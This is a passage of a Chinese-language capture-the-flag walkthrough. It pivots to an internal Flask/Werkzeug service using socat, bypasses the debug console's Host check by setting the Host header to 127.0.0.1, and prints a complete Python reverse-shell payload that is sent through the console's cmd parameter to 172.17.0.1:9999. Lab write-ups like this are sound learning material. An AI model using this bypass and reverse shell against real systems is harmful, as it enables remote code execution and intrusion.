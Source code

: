 查看到内网端口**5000**开放

![](./images/image-134.png)

上传**socat**将其转换出来

```
www-data@3b66fe911993:/tmp$ ./socat TCP-LISTEN:8080,fork TCP:127.0.0.1:5000 &
[1] 2743
```

查看服务信息

```
[root@kali] /home/kali/bicho  
❯ whatweb http://bicho.dl:8080
http://bicho.dl:8080 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.1.3 Python/3.12.3], IP[172.17.0.2], Python[3.12.3], Title[Blog de Writeups], Werkzeug[3.1.3] 
```

尝试访问**/console**路由，发现返回码是**400**，搜索后得到一个文章👇

- [flask无法访问console的问题解决 2024 | the0n3](https://the0n3.top/pages/883507/#%E6%8E%A2%E7%A9%B6)

只需要使用**hackbar**，设置**Host**为**127.0.0.1**即可绕过，幸运的是这里并不需要输入**pin**码就可以执行命令

![](./images/image-135.png)

因此可以生成一个**python**的反弹**shell**：[HYH的反弹Shell生成器](https://www.hyhforever.top/revshell/)

```
http://172.17.0.2:8080/console?__debugger__=yes&cmd=import os,pty,socket;s=socket.socket();s.connect(("172.17.0.1",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")&frm=0&s=8mGrwebyWWtc1TQPNb2E
```
